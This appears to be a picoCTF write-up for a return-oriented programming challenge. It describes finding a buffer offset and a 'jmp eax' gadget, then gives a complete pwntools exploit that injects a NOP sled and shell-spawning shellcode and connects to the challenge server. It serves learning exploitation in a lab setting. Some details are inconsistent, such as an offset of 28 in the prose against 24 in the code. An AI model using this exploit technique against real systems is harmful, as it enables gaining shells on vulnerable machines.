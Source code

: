 # CTF Write-Up: [Challenge Name][Challenge Type]

## Description
>What's ROP?
Can you exploit the following program to get the flag? Download source.


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{5n47ch_7h3_5h311_4cbbb771}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb

## Write-Up

### Preparatory Phase
As per the name of the challenge I had to research how to conduct return-oriented programming (ROP). It a relatively intermediate-level skill which builds upon the the skills I've learnt in buffer overflow exploitaiton. The following step by step was as summary of [this](#https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing). The basic premise of this is to chain together so-called gadgets which enables us as the attacker to force the program to jump to un-intended areas of code. Gadgets are an instruction which typically ends with a `ret` for example: `pop rdi; ret.`

1. Find the offset to the return address via `gdb`
2. See where the buffer starts to be filled from i.e. `eax` in this case
3. Fill the buffer with our shellcode




### Attack Phase
Using `checksec vuln` I was able to ascertain important information such as the binary's architecture and protections. An interesting discovery was that the stack was exectuable. Therefore I suspected we could execute our own shell code 
![alt text](images/image.png)

I now used `gdb` to find the offset which was determined to be 28 bytes. Therefore we need 28 bytes to reach the return pointer which for a 32-bit system is the `eip` register. 

We then need to obtain the ROP gadget for `jmp eax`. This was achieved via `ROPgadget --binary vuln | grep "jmp eax"`. The address of `jmp eax` was located at 0x0805333b, and since ASLR was not enabled I could be relatively certain that this address was fixed.

I could now begin my exploit which consisted of padding to reach `eip`, then a short jump instruction following  by `jmp eax`. Now we are at the start of the buffer I place a big `NOP` sled to ensure the program hits our malicious shell code.

### Final Solution/Payload
``` py
from pwn import *

local = False
offset = 24
short_jump = b'\xeb\x08\x90\x90'
payload = b'A' * offset
payload += short_jump
payload += p32(0x0805333b)
payload += b'\x90'*100
payload += asm(shellcraft.i386.linux.sh())

if local:
    io = process('./vuln')
else:
    io = remote('saturn.picoctf.net', 60948)
io.sendline(payload)
io.interactive()
```

### Lessons Learnt
I had to first understand what return oriented programming was. By extension this required understanding what gadgets were. We take advantage of the `pop eax, ret` by setting the value of it to my NOP sled and shellcode.

I had to peek at the solution to obtain the `short_jump`. We need this as " This is done in order to jump over the return address that we overwrote before. This is due to the fact that if we don’t jump over this address, then the bytes from which it consists are going to be interpreted as code and are going to get executed, leading to unpredictable results." Source: [here](https://medium.com/@valsamaramalamatenia/picoctf-ropfu-beginners-guide-eb7af08567b5)


